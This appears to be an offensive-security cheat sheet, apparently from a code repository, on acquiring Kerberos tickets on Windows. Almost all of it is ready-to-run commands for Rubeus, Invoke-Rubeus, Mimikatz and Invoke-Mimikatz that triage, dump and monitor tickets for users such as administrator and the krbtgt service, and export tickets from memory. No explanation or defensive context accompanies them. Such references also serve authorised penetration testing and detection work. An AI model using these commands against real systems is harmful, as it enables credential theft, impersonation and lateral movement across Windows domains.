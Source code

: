 ## Ticket Acquisition

### 1) Rubeus (Binary)

##### Triage for existing tickets

    Rubeus.exe triage

##### Dump tickets for selected user,service or LUID

    Rubeus.exe dump /nowrap /user:administrator
    Rubeus.exe dump /nowrap /service:krbtgt
    Rubeus.exe dump /nowrap /luid:0x6ee60

##### Monitor for and dump new tickets

    Rubeus.exe monitor interval:15 /nowrap
    Rubeus.exe monitor interval:15 /nowrap /targetuser:administrator

### 2) Invoke-Rubeus

##### Triage for existing tickets

    Invoke-Rubeus -Command "triage"

##### Dump tickets for selected user,service or LUID

    Invoke-Rubeus -Command "dump /nowrap /user:administrator"
    Invoke-Rubeus -Command "dump /nowrap /service:krbtgt"
    Invoke-Rubeus -Command "dump /nowrap /luid:0x6ee60"

##### Monitor for and dump new tickets

    Invoke-Rubeus -Command "monitor interval:15 /nowrap"
    Invoke-Rubeus -Command "monitor interval:15 /nowrap /targetuser:administrator"

### 3) Mimikatz

##### Export tickets (Preferred Method (More Accurate))

    mimikatz.exe "token::elevate" "sekurlsa::tickets /export"

##### Alternative Method

    mimikatz.exe "token::elevate" "kerberos::list /export"

### 4) Invoke-Mimikatz

##### Export tickets (Preferred Method (More Accurate))

    Invoke-Mimikatz -Command '"token::elevate "sekurlsa::tickets /export"'

##### Alternative Method

    Invoke-Mimikatz -Command '""token::elevate" "kerberos::list /export"'
